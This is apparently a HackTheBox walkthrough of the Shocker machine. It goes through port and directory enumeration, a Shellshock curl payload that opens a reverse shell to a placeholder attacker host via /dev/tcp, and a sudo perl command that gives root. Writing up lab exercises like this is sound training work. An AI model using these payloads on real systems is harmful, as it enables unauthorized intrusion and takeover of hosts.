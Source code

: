 ```yaml
---
title: "Shoker"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["shellshock"]
---
```


## Enumeration

![info card](media/shoker_infocard.png)

# Exploiting the Shocker Machine on HackTheBox: A Detailed Walkthrough

## Introduction

Shocker is an easy machine on HackTheBox that involves exploiting the Shellshock vulnerability to gain initial access and leveraging sudo permissions for privilege escalation. This walkthrough will guide you through the process of compromising the Shocker machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.10.56 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-28 10:28 EST
Nmap scan report for 10.10.10.56
Host is up (0.39s latency).

PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open   ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
25000/tcp closed icl-twobase1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.37 seconds
```

**Key Services Identified:**

- **HTTP (80):** Apache httpd 2.4.18
- **SSH (2222):** OpenSSH 7.2p2

### Web Enumeration

Visiting the HTTP service on port 80 revealed a simple webpage with no significant content.

**Webpage:**

![Webpage](media/shoker_webpage.png)

**Directory Brute-Forcing:**

Using `ffuf`, we discovered a directory named `cgi-bin`.

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ
```

**Key Directory Identified:**

- `/cgi-bin`

**Recursive Directory Brute-Forcing:**

We performed a recursive scan on `/cgi-bin` for `.bin`, `.sh`, and `.cgi` extensions, revealing a file named `user.sh`.

**Discovered File:**

![User.sh](media/shoker_user.png)

## Exploiting Shellshock

### Understanding Shellshock

Shellshock is a vulnerability in the Unix Bash shell that allows remote code execution. It affects systems that use Bash to process requests, such as CGI scripts.

### Crafting the Payload

We crafted a payload to exploit the Shellshock vulnerability and gain a reverse shell.

**Payload:**

```bash
curl -A “() { :; }; /bin/bash -i > /dev/tcp/attacker_ip/port 0<&1 2>&1” http://10.10.10.56/cgi-bin/user.sh
```

**Payload Breakdown:**

- `/bin/bash -i`: Defines that the shell must be interactive.
- `> /dev/tcp/attacker_ip/port`: Redirects the output of the shell to the attacker via a TCP connection.
- `0<&1 2>&1`: Indicates that input comes from the TCP connection, and output goes to the same TCP connection.

### Gaining Initial Access

Executing the payload provided a reverse shell on the machine.

**Reverse Shell Obtained:**

![User Flag](media/shoker_userflag.png)

## Privilege Escalation

### Enumerating Sudo Permissions

We checked the sudo permissions available to the current user.

```bash
sudo -l
```

**Sudo Permissions:**

```bash
User shelly may run the following commands on shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Exploiting Sudo Permissions

Using the sudo permissions, we escalated privileges to root by executing a shell with Perl.

**Privilege Escalation Command:**

```bash
sudo perl -e 'exec "/bin/sh";'
```

**Root Shell Obtained:**

![Root Shell](media/shoker_root.png)

## Conclusion

The Shocker machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Shellshock exploitation, and privilege escalation through sudo permissions. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.